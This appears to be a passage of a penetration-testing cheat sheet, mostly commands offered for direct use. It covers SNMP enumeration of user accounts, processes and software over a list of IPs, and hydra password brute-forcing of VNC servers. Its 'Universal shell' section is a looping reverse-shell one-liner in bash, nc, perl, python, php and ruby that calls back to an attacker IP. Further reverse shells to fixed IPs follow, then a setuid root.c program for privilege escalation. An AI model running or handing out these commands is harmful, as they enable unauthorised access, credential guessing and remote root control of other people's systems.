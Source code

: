 ```
for host in $(cat  ips.txt); do echo -e "---------\nhost:$host\n-----------";snmpwalk -c public -v1 $host $code; done
#

```
##### List of codes
```
1.3.6.1.2.1.25.1.6.0 System Processes
1.3.6.1.2.1.25.4.2.1.2 Running Programs
1.3.6.1.2.1.25.4.2.1.4 Processes Path
1.3.6.1.2.1.25.2.3.1.4 Storage Units
1.3.6.1.2.1.25.6.3.1.2 Software Name
1.3.6.1.4.1.77.1.2.25 User Accounts
1.3.6.1.2.1.6.13.1.3 TCP Local Ports
```

## VNC

	VNC:
		vncviewer 192.168.1.116::5901
		hydra -p "password" vnc://192.168.1.117:5901
		hydra -P /usr/share/metasploit-framework/data/wordlists/vnc_passwords.txt -s 5901 192.168.1.116 vnc


## Universal shell (change IP to yours):
    while true;do bash -i >& /dev/tcp/IP/1337 0>&1;nc -e /bin/sh IP 1337;perl -e 'use Socket;$i="IP";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};';python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);';php -r '$sock=fsockopen("IP",1337);exec("/bin/sh -i <&3 >&3 2>&3");';ruby -rsocket -e'f=TCPSocket.open("IP",1337).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)';sleep 5;done

## Priv escalation
### Reverse shell
		bash -i >& /dev/tcp/10.1.1.246/443 0>&1
		rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.114.137 443 >/tmp/f
	Add SSH keys: ssh-keygen -t rsa -b 2048
	root.c:
	#include <stdlib.h>
	#include <unistd.h>

	int main() {
		setuid(0);
		setgid(0);
	system("/bin/bash");
	}

#### bash
    bash -i >& /dev/tcp/192.168.100.113/4444 0>&1
